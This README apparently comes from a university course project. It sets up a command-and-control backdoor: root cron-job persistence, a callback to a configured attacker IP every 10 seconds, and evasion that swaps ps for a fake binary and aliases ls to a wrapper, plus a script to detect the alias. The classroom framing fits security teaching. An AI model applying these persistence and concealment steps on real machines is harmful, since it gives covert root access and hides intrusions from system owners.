 # C S 378 - Command and Control Project (Donald and Vincent)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod 755 backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and are in root's directory (at least when testing on Kali machine as target)

### Evading Detection

#### ls

In the evasion_and_detection folder, there is an **_ls_custom_** file. Take that and put it into the target machine at **_/usr/bin/ls_custom__**.

Give **_ls_custom_** executing privileges by running: **_chmod 755 /usr/bin/ls_custom_**

Run **_echo "alias ls='/usr/bin/ls_custom'" >> /etc/profile_** followed by **_source /etc/profile_** to reload the shell and apply these changes. The **_source_** call isn't necessary as the next time there is a login to the shell, the updated code will run. This just allows you to test the code without having to log out and back in. 

Now, whenever **_ls_** is run, the wrapper should run instead of the original binary.

#### ps

Place the ***fake_ps*** file found in the evasion_and_detection folder into the **_/bin_** directory of the target machine

Create a directory named **_orig_** in the **_/bin_** directory. 

Place the original **_ps_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Rename the ***fake_ps*** file to **_ps_**

### BONUS: Detection Script

In the evasion_and_detection folder, there is an **_detect.py_** file. To run it, put it into the target machine and execute it using the following command: **_python3 detect.py_**.

There is a customization option within the python file, which is what files to look in when searching for aliases. We've included several start-up files to search within, one of which actually contains the alias we used to execute the ls wrapper. However, the list of files can easily be modified to better suit your needs.
